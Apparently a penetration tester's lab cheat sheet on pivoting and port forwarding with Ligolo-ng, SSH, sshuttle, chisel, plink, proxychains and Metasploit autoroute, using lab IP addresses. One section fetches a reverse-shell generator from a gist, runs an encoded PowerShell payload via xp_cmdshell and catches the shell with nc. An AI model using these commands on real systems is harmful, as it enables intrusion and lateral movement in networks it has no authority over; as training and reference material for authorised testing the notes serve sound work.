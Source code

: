 # Port Forwarding / Pivoting

<details>

<summary>Ligolo-ng</summary>

On Kali:

```bash
On Kali:
    ./proxy_linux64 -selfcert -laddr 0.0.0.0:443 

    After client connects:
        In Ligolo-ng session: 
            session
            ifconfig
            autoroute
        In event that route already exists, in Kali terminal:
            sudo ip route del 172.16.218.0/24 dev <interface name> 
```

On pivot machine:

```bash
.\agent_win64.exe -connect 192.168.45.227:443 -ignore-cert
```

**Double pivoting:**

<pre class="language-bash"><code class="lang-bash"># In Ligolo session
<strong>listener_add --addr 0.0.0.0:80 --to 127.0.0.1:80
</strong>
# In Internal Machine B
.\agent_win64.exe -connect &#x3C;Pivot_A_IP>:80 -ignore-cert
</code></pre>

</details>

<details>

<summary>Dynamic Port Forwarding</summary>

On Kali machine:

```bash
ssh -f -N -D 1080 j0hn@10.11.1.252
```

Edit `/etc/proxychains.conf`

```bash
[ProxyList]
# add proxy here ...
# meanwhile
# defaults set to "tor"
socks5 	127.0.0.1 1080
```

Using tools:

```bash
proxychains -q curl http://10.3.3.13
```

For burp, see [here](../configurations/burpsuite-upstream-proxy.md)

</details>

<details>

<summary>Reverse Port Forwarding</summary>

On Kali:

```bash
service ssh start
```

On Target:&#x20;

```bash
ssh -f -N -R 44544:127.0.0.1:445 kali@192.168.45.241
```

* Opens port 44544 on kali and forwards to the target's port 445.

</details>

<details>

<summary>Sshuttle</summary>

On Kali:

* SSH creds of edge machine
* Internal network to be exposed

```bash
sshuttle -r sean@10.11.1.251 10.1.1.0/24
```

</details>

<details>

<summary>Chisel &#x26; Proxychains</summary>

### Kill port 8080

```bash
fuser -k 8080/tcp
```

### On Kali:

* Copied chisel [pre-compiled](https://github.com/jpillora/chisel/releases/tag/v1.7.6)

```bash
chisel server -p 8080 --reverse
```

* Edit `/etc/proxychains.conf`

```bash
socks5 127.0.0.1 1080
```

### On Victim:

```bash
chisel client 192.168.45.191:8080 R:socks
```

## Configure Burp for Web Browsing via Chisel

```bash
Proxy Type: SOCKS5
Proxy IP address: 127.0.0.1
Port: 1080
```

## Proxychains Nmap Usage

* Have to use TCP Connect scan (-sT)
* ICMP doesn’t work over proxychains (hence need -Pn)
* vv slow, could instead install & use nmap on the compromised host.

```bash
proxychains nmap ..
```

</details>

<details>

<summary>Reverse Port Forward to Remote Server (when victim can't reach attacker directly)</summary>

[https://simplecheatsheet.com/ssh-tunnel-proxy/](https://simplecheatsheet.com/ssh-tunnel-proxy/)

### Background

* Attacker has access to MS01.
* Chisel is already in place but MS02 in internal network still unable to reach attacker.

### On Kali:

```bash
ssh web_svc@192.168.218.147 -N -R *:7777:localhost:7777
```

### On Victim:

* Insert in MS01's internal IP as Reverse IP
* Reverse port is 7777

```bash
wget https://gist.githubusercontent.com/tothi/ab288fb523a4b32b51a53e542d40fe58/raw/40ade3fb5e3665b82310c08d36597123c2e75ab4/mkpsrevshell.py
python3 mkpsrevshell.py 10.10.108.147 7777
SQL> xp_cmdshell "powershell -e JABj..."
```

### On Kali:

```bash
nc -lvp 7777
# listening on [any] 7777 ...
# connect to [127.0.0.1] from localhost [127.0.0.1] 39614

# PS C:\Windows\system32> whoami
# nt service\mssql$sqlexpress
```

</details>

<details>

<summary>Exposing An Internal port from Windows Victim</summary>

### Using Plink:

To forward victim port 80 to kali's port 80

On Windows victim:

```bash
plink.exe -N -R 80:127.0.0.1:80 kali@192.168.45.5 -pw .8monitor
```

#### If port 22 is blocked --> try other ports

```bash
# Inside /etc/ssh/sshd_config
	  14 Port 139
	  15 AddressFamily any
	  16 ListenAddress 0.0.0.0
  	  17 ListenAddress ::

# On Victim
plink.exe -N -R 8888:127.0.0.1:8888 kali@10.10.14.2 -pw .8monitor -P 139
```

### Using Chisel:

To forward victim's port 3306 to kali's port 3306

On Kali:

```bash
chisel server -p 8080 --reverse
```

On Victim:

```bash
chiselx64.exe client 192.168.45.5:8080 R:3306:127.0.0.1:3306
```

</details>

<details>

<summary>Local Port Forwarding</summary>

To forward victim port 80 to kali's port 8000.

On Kali:

```bash
ssh -N -L 8000:192.168.165.99:80 ariah@192.168.165.99
```

</details>

<details>

<summary>Double Pivoting</summary>

### Use port 2080 instead

```bash
proxychains -q ssh -f -N -D 2080 -o KexAlgorithms=diffie-hellman-group14-sha1 -oHostKeyAlgorithms=+ssh-dss bill@10.1.1.1
```

### Copy /etc/proxychains.conf, edit the port to 2080

```bash
 111 [ProxyList]
 112 # add proxy here ...
 113 # meanwhile
 114 # defaults set to "tor"
 115 socks5  127.0.0.1 2080
```

### Usage&#x20;

```bash
proxychains -q -f /home/kali/Documents/offsec/10.1.1.1/proxychains_2080.conf nmap --top-ports 100 -sT -Pn 10.3.3.14
```

</details>

<details>

<summary>Metasploit's Autoroute</summary>

```bash
background
use multi/manage/autoroute
set session 1
exploit

use auxiliary/server/socks_proxy 
set srvhost 127.0.0.1
exploit -j
```

Then, in Kali:

```bash
sudo bash -c 'echo "socks5 127.0.0.1 1080" >> /etc/proxychains4.conf'
proxychains rdesktop 192.168.122.10
```

</details>

<details>

<summary>Links</summary>

[https://gist.github.com/grantpullen/5a1c79a4e4a28e3b1d66ae17c8a9eb61](https://gist.github.com/grantpullen/5a1c79a4e4a28e3b1d66ae17c8a9eb61)

[https://0xdf.gitlab.io/2019/01/28/pwk-notes-tunneling-update1.html](https://0xdf.gitlab.io/2019/01/28/pwk-notes-tunneling-update1.html)

[https://www.ctfnote.com/red-teaming/pivoting](https://www.ctfnote.com/red-teaming/pivoting)

</details>

